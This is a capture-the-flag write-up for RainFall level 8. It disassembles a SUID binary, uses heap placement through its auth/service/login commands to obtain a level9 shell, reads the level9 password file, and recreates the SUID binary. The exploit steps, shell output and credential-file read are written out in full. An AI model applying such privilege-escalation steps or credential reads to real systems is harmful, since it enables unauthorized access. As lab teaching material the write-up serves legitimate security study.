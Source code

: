 # Level 8

## Vulnerability

Idiocy

## Context

We find a binary with owner level9 and SUID.
```
level8@RainFall:~$ ls -l
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```
When run accepts input on stdin and prints 2 null values.
```
level8@RainFall:~$ ./level8
(nil), (nil)
wait... what?
(nil), (nil)
```

## Solution

Investigating with gdb, we find the main reads stdin with fgets() accepting commands.

It calls system("/bin/sh") after several conditional jumps.
```
level8@RainFall:~$ gdb -q level8
...
(gdb) disas main
...
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
...
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
```
if we cat the binary we find some strings that look like commands
```
level8@RainFall:~$ cat level8
...
auth resetservicelogin/bin/shPassword:
```
Playing with these commands as input to ```level8``` we find the following:

* ```auth```    : calls ```strcpy()```, copies input following auth into global variable ```auth```.
* ```service``` : calls ```strdup()```, copies input following service into global variable ```service```.
* ```reset```   : calls ```free()```, resets global variable auth.
* ```login```   : If auth[32] is non-zero call ```system()```. Else ```fwrite()``` displays address of global variables ```auth``` and ```service```.

malloc() places each pointer successively on the heap, with some padding. In this case we see 16 bytes between pointers (0x804a018 - 0x804a008 = 16).

To make auth[32] non-zero we can attempt to place our ```service``` variable 32 bytes after ```auth``` on the heap (0x804a028 - 0x804a008 = 32).

Create the first pointer with command ```auth```, then a second calling ```service``` twice. We see ```service``` is now exactly 32 bytes after ```auth```.

So when we call login auth[32] is non-zero and we are given a new shell as user ```level9``` where we can ```cat``` the password.
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth please
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
### Alternative solution

Alternatively, create the ```auth``` pointer first, then a second calling ```service``` with any string at least 16 bytes long.
```
auth I mean...
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
```

## Recreate Exploited Binary

As user ```level9```, in ```/tmp```, create and compile ```level8_source.c```
```
level9@RainFall:/tmp$ gcc level8_source.c -o level8_source
```
Edit permissions including suid, then move the binary to home directory.
```
level9@RainFall:/tmp$ chmod u+s level8_source; chmod +wx ~; mv level8_source ~
```
Exit back to user ```level8```, then run the source.
```
level9@RainFall:/tmp$ exit
exit
level8@RainFall:~$ /home/user/level9/level8_source
(nil), (nil)
auth please
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
```
